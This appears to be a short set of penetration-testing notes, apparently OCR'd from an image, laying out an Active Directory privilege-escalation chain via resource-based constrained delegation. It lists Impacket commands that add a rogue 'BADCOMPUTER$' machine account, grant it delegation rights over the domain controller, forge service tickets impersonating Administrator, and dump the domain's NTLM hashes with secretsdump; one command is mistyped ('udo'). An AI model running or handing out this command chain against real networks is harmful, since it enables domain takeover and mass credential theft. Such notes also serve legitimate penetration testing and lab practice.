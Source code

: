 * can exploit via RBCD

```bash
addcomputer.py -computer-name 'BADCOMPUTER$' -computer-pass 'PASSWORD!' -dc-host [dc-host] -domain-netbios [domain] [domain]/[user]:'password'
```

* grant system rights to impersonate administrator user
```bash
impacket-rbcd -delegate-from 'BADCOMPUTER$' -delegate-to 'DC$' -dc-ip [dc-ip] -action 'write' '[domain] [domain]/[user]:password''
```

# obtain service ticket TGS
```bash
getST.py -spn 'cifs/DC.[fqdn]' -impersonate Administrator -dc-ip [dc-ip] '[domain]/BADCOMPUTER$:PASSWORD!'
```

# match time of your attack machine to dc
```bash
udo rdate -n [domain]
sudo ntpdate -u [domain]
```

# Get admin hash
```bash
getST.py -spn 'LDAP/DC.[fqdn]' -impersonate Administrator -dc-ip [dc-ip] '[domain]/BADCOMPUTER$:PASSWORD!'
```

# Export ticket
```bash
export KRB5CCNAME=/home/kali/Downloads/bingbing/payloads/Administrator.ccache
```

# Dump the hash
```bash
secretsdump.py '[domain]/Administrator@DC.[fqdn]' -k -no-pass -dc-ip [dc-ip] -target-ip [dc-ip] -just-dc-ntlm
```
